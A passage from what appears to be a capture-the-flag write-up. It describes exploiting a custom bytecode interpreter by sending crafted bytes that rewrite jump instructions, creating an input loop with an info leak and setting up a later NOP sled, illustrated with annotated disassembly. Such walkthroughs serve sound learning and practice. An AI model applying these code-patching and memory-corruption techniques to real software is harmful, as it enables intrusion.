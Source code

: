 Why did I flip it back? Honestly I'm not sure anymore. I think it's so that I end up using the `getc [mp]` instruction at 0x84 to modify the jump instruction. This keeps things stable.

Anyway, it is important that I optimize for sending null bytes, because we will need to send a lot of them when we go to the program's nop sled later on. So this has to be a `jz` instruction

---

Finally, we have our `jnz` to complement our `jz` at 0x9c, giving us an infinite read loop!

```python
io.send(b'\x08\x01\x00\x01\x01\x01')
```

Notice that the `jz` and `jnz` instructions at 0x9c and 0xa0 have different jump targets.

```
CODE:   0x00007fffb0c90448
  80: 01fe0001  inc     mp
  84: 04fd0004  getc    [mp]
  88: 000d0107  jz      0xb4
  8c: 01064104  getc    [mp]
  90: 00000101  inc     mp
  94: 00010003  putc    [mp]
  98: 00000004  getc    [mp]    <- ip
  9c: 00040007  jz      0x90
  a0: 00010008  jnz     0x84
  a4: 00080008  jnz     0xa0
  a8: 00000001  inc     mp
  ac: 00000006  dec     [mp]
  b0: 00030008  jnz     0x8c
  b4: 00000006  dec     [mp]
  ...
REGISTERS:
mp: 0xa3 -> 0x00
ip: 0x06 -> 00000004    getc    [mp]
```

We now have an read loop! Although passing stuff to it can be complicated...

```
  84: 04fd0004  getc    [mp]            ; this is our "kill switch"
  88: 000d0107  jz      0xb4            ; this leads to program exit
  8c: 01064104  getc    [mp]            ; we can "confirm" the input here
  90: 00000101  inc     mp
  94: 00010003  putc    [mp]            ; info leak
  98: 00000004  getc    [mp]    <- ip   ; read from input
  9c: 00040007  jz      0x90            ; if zero, just keep reading
  a0: 00010008  jnz     0x84            ; otherwise, "confirm" the input
  a4: 00080008  jnz     0xa0
```

While the loop can read infinitely, we don't want that. We want to be able to break out of the loop when we want.

How do we work with this loop? We can make some rules:
- if we want to write a null byte, send one null byte
- if we want to write a non-null byte, we can send the same byte value three times!
	- technically you only need to send any non-null byte twice, then send the actual value, but why complicate things... this writeup is already too long
- if we want the program to stop asking for input, we send any non-null byte, followed by a null byte.
